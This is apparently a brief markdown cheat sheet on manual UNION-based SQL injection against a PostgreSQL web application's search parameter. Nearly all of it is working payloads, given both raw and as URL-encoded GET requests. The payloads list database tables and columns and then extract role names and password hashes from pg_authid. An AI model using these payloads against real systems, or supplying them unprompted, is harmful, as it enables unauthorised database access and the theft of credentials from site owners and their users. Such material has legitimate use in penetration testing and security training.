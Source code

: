 # SQL INJECTION

## POSTGREE

# #1 - Getting tables information (MANUALLY)
First we need to test if the web is vulnerable to sql injection.

```console
Based on query discovered by getting error

select * cars where name ilike='%

Must be encoded in URL
a' union all select NULL,table_name,NULL,NULL,NULL from information_schema.tables--

GET /dashboard.php?search=a%27%20union%20all%20select%20NULL,table_name,NULL,NULL,NULL%20from%20information_schema.tables-- HTTP/1.1
```
getting data from information schema columns
```console
GET /dashboard.php?search=a%27%20union%20all%20select%20NULL,column_name,NULL,NULL,NULL%20from%20information_schema.columns%20where%20table_name=%27pg_authid%27--
```
Getting contents of pg_authid
```console
elixir' union all select NULL,rolname,rolpassword,NULL,NULL from pg_authid-- 
GET /dashboard.php?search=a%27%20union%20all%20select%20NULL,rolname,rolpassword,NULL,NULL%20from%20pg_authid--
```
